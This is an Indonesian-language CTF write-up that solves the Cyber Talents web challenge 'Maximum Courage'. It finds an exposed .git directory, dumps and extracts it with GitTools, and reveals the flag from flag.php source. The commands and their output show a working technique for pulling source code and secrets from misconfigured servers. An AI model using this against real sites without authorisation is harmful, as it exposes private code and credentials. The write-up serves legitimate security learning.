 ## [Writeup] Cyber Talents: Maximum Courage


Tutorial ini akan membahas solusi untuk soal CTF [Cyber Talents: Maximum Courage](https://cybertalents.com/challenges/web/maximum-courage) yang termasuk ke dalam kategori web security. Berikut ini adalah petunjuk untuk soal tersebut:

```
Max prefers to learn by practicing and not just reading all day, so he set up
a webserver and hopes it stays secret, can you prove it has a weakness?
```

Untuk soal kali ini, dapat diakses pada [tautan ini](http://35.197.204.100/maximum/). Gunakan browser untuk mengakses halaman soal tersebut, atau bisa juga menggunakan [HTTPie](https://httpie.org) seperti ini:

```bash
% http "http://35.197.204.100/maximum/"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 05:39:48 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<title>MAX</title>
<body style="margin:0px;padding:0px;background-color:#000;color:#01ba17">
<div style="padding:100px;width:70%;margin: 0px auto;font-size:26px;">
Welcome to max's hideway.<br /><br />
I learn security by watching hackers break my website, so to my understanding the PHP source code is never served to the user so you can't see the content of my <a style="color:#01ba17" href="flag.php" target="_BLANK" />flag.php</a>
</div>
</body>
```

Bisa terlihat bahwa pada halaman tersebut terdapat tautan ke file **flag.php**. Coba kita periksa tautan tersebut:

```bash
% http "http://35.197.204.100/maximum/flag.php"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 05:40:40 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
```

Kita tidak dapat mengakses file **flag.php** secara langsung. Coba kita ganti ekstensinya menjadi **.phps** yang merupakan ekstensi untuk file source PHP:

```bash
% http "http://35.197.204.100/maximum/flag.phps"
HTTP/1.1 404 Not Found
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Tue, 04 Aug 2020 00:23:57 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3 (Ubuntu)</center>
</body>
</html>
```

Hasilnya nihil. Demikian pula jika kita mencoba beberapa kemungkinan lainnya misalnya **flag.php~** atau **flag.html**, bahkan file **robots.txt** juga tidak ada. Karena petunjuk yang terdapat pada file **flag.php** adalah _source_, kita akan mencoba mencari direktori tersembunyi yang sering digunakan oleh version control system misalnya [git](https://git-scm.com/).

```bash
% http "http://35.197.204.100/maximum/.git/"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Mon, 03 Aug 2020 05:41:21 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<html>
<head><title>Index of /maximum/.git/</title></head>
<body bgcolor="white">
<h1>Index of /maximum/.git/</h1><hr><pre><a href="../">../</a>
<a href="hooks/">hooks/</a>                      23-Feb-2019 13:28                   -
<a href="info/">info/</a>                       23-Feb-2019 13:28                   -
<a href="logs/">logs/</a>                       23-Feb-2019 13:30                   -
<a href="objects/">objects/</a>                    23-Feb-2019 13:30                   -
<a href="refs/">refs/</a>                       23-Feb-2019 13:28                   -
<a href="COMMIT_EDITMSG">COMMIT_EDITMSG</a>              23-Feb-2019 13:30                 266
<a href="HEAD">HEAD</a>                        23-Feb-2019 13:28                  23
<a href="config">config</a>                      23-Feb-2019 13:30                 196
<a href="description">description</a>                 23-Feb-2019 13:28                  73
<a href="index">index</a>                       23-Feb-2019 13:30                 209
</pre><hr></body>
</html>
```

Ternyata benar, pada tautan tersebut terdapat sub direktori tersembunyi. Namun, kita tidak dapat melakukan kloning terhadap sub direktori tersebut secara langsung. Untuk itu, kita akan menggunakan beberapa script yang terdapat pada [GitTools](https://github.com/internetwache/GitTools). Lakukan kloning terhadap repositori GitTools:

```bash
% git clone "https://github.com/internetwache/GitTools"
```

Selanjutnya, kita akan menggunakan script **gitdumper.sh** untuk menyalin semua isi dari direktori pada server dengan perintah seperti ini:

```bash
% ./GitTools/Dumper/gitdumper.sh "http://35.197.204.100/maximum/.git/" ctf
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ctf/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/ca/432659ef19b8e1cfd6607878c4eb5a778dc37d
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/08/48654ac283468f006838972da074064826f6e9
[+] Downloaded: objects/f3/df28f6e6614d7753ba2e5c45447fde1a99671a
[+] Downloaded: objects/c2/72c09bb7c1a565df8230f07f0e29db84fd676e
```

Hasil dari perintah di atas akan disimpan pada sub direktori **ctf**. Selanjutnya, kita akan mengekstrak file object yang terdapat pada sub direktori **ctf** menggunakan script **extractor.sh** seperti ini:

```bash
% ./GitTools/Extractor/extractor.sh ctf dst
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: ca432659ef19b8e1cfd6607878c4eb5a778dc37d
[+] Found file: /tmp/dst/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d/flag.php
[+] Found file: /tmp/dst/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d/index.php
```

Hasil ekstrak akan disimpan pada sub direktori **dst**, dan dapat kita lihat seperti ini:

```bash
% cat dst/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d/flag.php
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
<?php
exit();
die();
$secret_key = 'be607453caada6a05d00c0ea0057f733';
?>
```

Seperti yang terlihat di atas, kita dapat melihat kode sumber file **flag.php**, dan terdapat variabel **$secret_key** yang merupakan flagnya, yaitu `be607453caada6a05d00c0ea0057f733`. Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
